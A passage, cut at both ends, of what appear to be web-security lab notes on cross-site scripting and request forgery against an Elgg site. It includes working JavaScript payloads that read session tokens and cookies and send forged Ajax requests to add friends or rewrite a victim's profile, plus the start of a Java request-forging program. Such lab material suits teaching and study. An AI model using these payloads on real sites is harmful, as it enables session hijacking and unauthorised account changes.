 ```js
    Ajax = new XMLHttpRequest();

    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");
    Ajax.setRequestHeader("Cookie", document.cookie);  // access the session cookie
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

### POST with Js - modify profile

![Screen Shot 2020-09-20 at 01.02.54](https://i.imgur.com/75zUEkB.png)

1. capture the POST request packet

2. construct the URL for send add friend Request

3. write the Ajax code

```js
<script type="text/javascript">
window.onload = function(){

    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content
    var content = "My new profile text.";

    //Create and send Ajax request to modify profile
    Ajax = null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");
    Ajax.setRequestHeader("Cookie", document.cookie);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
}
```


```java
import java.io.*;
import java.net.*;

public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
        int responseCode;
        InputStream responseIn=null;

        String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>&__elgg_token=<<correct_elgg_token_value>>";

        // URL to be forged.
```